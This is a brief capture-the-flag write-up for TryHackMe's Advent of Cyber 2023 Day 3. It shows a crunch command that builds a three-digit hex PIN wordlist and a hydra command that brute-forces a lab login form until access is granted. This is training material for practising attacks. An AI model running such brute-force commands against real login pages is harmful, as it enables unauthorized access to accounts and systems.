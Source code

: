 # Day 3

![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/86c03667-b93e-4e16-9d02-74c409f88ea6)
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/1c81a9f1-4649-4232-b609-8eabad750d2a)


## Generating password wordlist with crunch
```s
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/44c735dc-8ed4-472e-b7d1-af5291b0fb5d)


## Cracking with hydra
```s
hydra -l '' -P 3digits.txt -f -v 10.10.174.107 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/72875a73-ea57-4b6f-9363-97fc988a72f8)
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/fcd09e81-2474-4ea7-8616-0ebaf2f758c5)

Acces granted
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/64d6ae96-ecc6-4307-b6e1-4cc05a1ccd55)

